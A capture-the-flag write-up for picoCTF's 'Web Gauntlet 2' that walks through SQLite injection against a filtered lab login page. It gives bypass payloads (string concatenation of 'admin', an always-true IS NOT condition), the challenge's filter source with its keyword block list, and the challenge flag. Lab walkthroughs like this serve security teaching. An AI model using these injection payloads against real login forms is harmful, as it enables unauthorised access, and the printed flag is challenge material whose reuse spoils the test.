



# Web Gauntlet 2
Author: dch0017

## Challenge Description
This website looks familiar... Log in as admin.

## Accessing Site
Getting onto the site we see a  basic login page: </br>

</br>

## SQLite
From the login page we know that it's going to be an SQLite injection. We are also given a ```filter.php``` page which tells us which characters/keywords are filtered out. These include:

```
Filters: or and true false union like = > < ; -- /* */ admin
```

So we know we can't run any injections such as ```" or ""="``` because we know both ```or``` and ```=``` are filtered out.

I was messing around with the username and password boxes, and when I sent through ```select``` as the username and password, we got something new at the top of the page.

## Base Query

</br>

So that looks like our query we need to edit. We can see there are a bunch of [operators for sqlite](https://www.w3schools.blog/operators-sqlite), and only a few are blocked. 

## Operators
We need to retrieve the ``admin`` account and just have ```password``` equal to True.

We can't just send `admin` through the username field as it is filtered, but we can use teh `||` operator to join a string such as:
```
admi'||'n
```
For the password we can use `IS NOT` as an equality operator and give it two random strings:
```
fake' IS NOT 'real
```
## Crafted Query
When inputting that into the site we get:</br>

</br>

And by navigating to ```filter.php``` we see the following code with our flag:

## Filter.php
```php
<?php
session_start();

if (!isset($_SESSION["winner2"])) {
    $_SESSION["winner2"] = 0;
}
$win = $_SESSION["winner2"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner2"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner2"] = 0;
}

// picoCTF{0n3_m0r3_t1m3_86f3e77f3c5a076866a0fdb3b29c52fd}
?>
```